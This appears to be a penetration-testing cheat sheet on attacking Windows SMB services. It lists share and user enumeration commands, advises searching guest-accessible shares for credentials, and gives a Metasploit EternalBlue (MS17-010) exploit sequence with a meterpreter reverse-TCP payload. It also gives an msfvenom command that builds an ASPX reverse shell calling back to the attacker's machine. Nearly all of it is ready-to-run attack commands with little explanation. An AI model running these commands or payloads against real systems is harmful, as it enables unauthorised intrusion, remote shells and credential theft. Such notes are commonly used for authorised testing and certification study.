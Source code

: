- `Always check guest login and then check public share with write and execute permission and you will find credential, files pdf ps1 etc`

## Basic SMB Enumeration

```bash
smbclient -L //<ip>               # List available shares (anonymous)
smbclient //ip/share              # Connect to share (anonymous)
smbclient //ip/share -u <user>    # Connect as specific user

smbmap -H <ip>                    # (public shares) (check read write and execute)

enum4linux -a <ip>                # best command to find details and users list

crackmapexec smb <ip> -u guest -p '' --shares  # List shares with null session


get # download
put  # upload
```

## Vulnerability Scanning
```bash
nmap -p 445 --script vuln -Pn -T4 -v <ip>   # Check for SMB vulns (e.g., MS17-010)
```


---

# EternalBlue (MS17-010)
### Exploit with Metasploit
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set LHOST <your_ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

### MSFVenom Payload 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f aspx -o shell.aspx
```
